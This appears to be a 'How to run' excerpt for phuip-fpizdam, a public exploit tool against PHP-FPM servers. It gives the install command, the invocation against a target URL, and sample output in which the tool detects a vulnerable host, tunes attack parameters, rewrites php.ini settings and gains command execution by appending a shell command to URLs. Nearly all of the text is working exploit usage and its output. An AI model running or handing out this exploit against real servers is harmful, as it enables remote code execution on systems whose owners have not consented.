

## How to run
Install it using
go get github.com/neex/phuip-fpizdam
If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using phuip-fpizdam [url] (assuming you have the $GOPATH/bin inside your $PATH, otherwise specify the full path to the binary). Good output looks like this:
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!